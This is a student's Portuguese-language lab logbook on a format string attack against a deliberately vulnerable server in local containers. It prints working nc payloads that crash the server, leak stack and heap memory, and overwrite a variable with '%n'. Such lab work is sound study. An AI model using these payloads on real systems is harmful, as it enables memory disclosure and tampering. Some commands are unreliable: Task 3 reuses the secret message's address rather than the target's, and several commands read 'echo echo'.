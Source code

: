# Trabalho realizado na Semana #7

## Environment Setup: Turning Off Countermeasures

Como os sistemas operativos atuais apresentam vários mecanismos de segurança que dificultam a exploração de um ataque format string, começamos por desativar algumas das proteções do sistema, nomeadamente, a randomização do espaço de endereços (que dificulta o cálculo de endereços necessários para o nosso ataque). 

<img src="../screenshots/logbook7/setup.png" alt="setup">

Para além disso, como o nosso objetivo será injetar código na stack, o programa tem de ser compilado com `-z execstack`, para que a stack seja executável. 

## Task 1: Crashing the Program

Usamos dois terminais para inicializar dois containers, cada um correndo um servidor vulnerável. Começamos por enviar uma mensagem `hello` para o servidor através do terminal B:

```bash
$ echo hello | nc 10.9.0.5 9090
```

O output no terminal A foi o seguinte, onde vemos:
- Endereço do `buffer` de input
- Endereço da mensagem secreta
- Frame pointer da função `myprintf`
- Endereço inicial e final de uma variável `target`

<img src="../screenshots/logbook7/hello.png" alt="hello">


### Exploração do ataque

Nesta tarefa, é-nos pedido para crashar o servidor manipulando o input fornecido pelo utilizador. Deste modo, recorremos ao `%s`:

```bash
$ echo '%s' | nc 10.9.0.5 9090
```

Como a própria format string é colocada na stask, `%s` vai buscar o endereço na posição imediatamente acima, tentando imprimir a string que está nesse endereço, o que calhou numa zona inválida, isto é, fora da memória virtual do processo:

<img src="../screenshots/logbook7/task1.png" alt="task1">


## Task 2: Printing Out the Server Program’s Memory

O objetivo desta task é dar print a variáveis da memória do programa.

### Task 2.A: Stack Data

Para dar print à variável presente na stack, usamos o format specifier `%08x` para avançar o `va_list pointer` 4 bytes de cada vez (um endereço), de modo a que apontasse para a variável que queremos explorar. Assim, para calcular a distância entre a variável e o `va_list pointer` - o número de `%08x`, metemos **HERE** (48 45 52 45 em ASCII) no início e, quando este fosse impresso, saberíamos logo esta distância:

```bash
echo "HERE%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x" | nc 10.9.0.5 9090
```

<img src="../screenshots/logbook7/task2.A.PNG" alt="task2.A">

Foram necessários 64 "%08x" para imprimir **HERE**, logo existem 63 endereços na stack entre o format string e o buffer.


### Task 2.B: Heap Data

Pelos prints das tarefas anteriores, verificamos que o endereço da mensagem secreta que pretendemos dar print é 0x080b4008. Estando perante uma máquina *small-indian*, a sua codificação em string será `\x08\x40\x0b\x08`. 

Da task 2.A, sabemos que a distância entre o `buffer de input` e o início do `va_list pointer` é de 63 endereços (63 "%08x").

Ora, para dar print da mensagem secreta, basta inserirmos o seu endereço no início, seguido de 63 "%08x", terminando com "%s", que irá ler deste endereço e retornar o valor escondido:

```bash
echo echo "\x08\x40\x0b\x08%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x %s" | nc 10.9.0.5 9090
```

Por fim, obtemos o conteúdo da mensagem secreta:

<img src="../screenshots/logbook7/task2.B.PNG" alt="task2.B">


## Task 3: Modifying the Server Program’s Memory

O objetivo desta tarefa é modificar o valor da variável `target`, cujo endereço é de `0x080e5068` e tem valor inicial igual a `0x11223344`.

### Task 3.A: Change the value to a different value

O format specifier `%n` escreve o número de caracteres que foram lidos até ao momento na memória. De facto, `%n` trata o valor apontado pelo `va_list pointer` como um endereço de memória, escrevendo para esse local. Desta forma, podemos usá-lo para alterar o valor de `target`.

A abordagem é muito semelhante à da task 2.B:
- escrever no início do endereço de memória de `target`
- escrever 63 "%08x" para o pointer avançar 63 endereços
- terminar com "%n" para alterar o valor no endereço de `target`

```bash
echo echo "\x08\x40\x0b\x08%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x %n" | nc 10.9.0.5 9090
```

<img src="../screenshots/logbook7/task3.A.png" alt="task3.A">

Verificou-se que o valor de `target` foi alterado para `0x000001fd` (509 em decimal), pelo que foram escritos 4 (endereço de `target`) + 63 x 8 ("%08x") + 1 (espaço branco) caracteres antes do `%n`.

### Task 3.B: Change the value to 0x5000

Para alterar o valor de `target` para 0x5000 (20480 em decimal), teremos que escrever 20480 caracteres antes de `%n`. Sendo que o endereço já ocupa 4 bytes e precisamos de 62 `%08x` para avançar o va_list pointer, ainda precisamos de 20480 - 4 - 62 x 8 = 19980 caracteres.

Assim, precisamos de `%.19980x` antes de `%n`:

```bash
echo echo "\x08\x40\x0b\x08%.19980x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x %n" | nc 10.9.0.5 9090
```

<img src="../screenshots/logbook7/task3.B.png" alt="taskB.A">


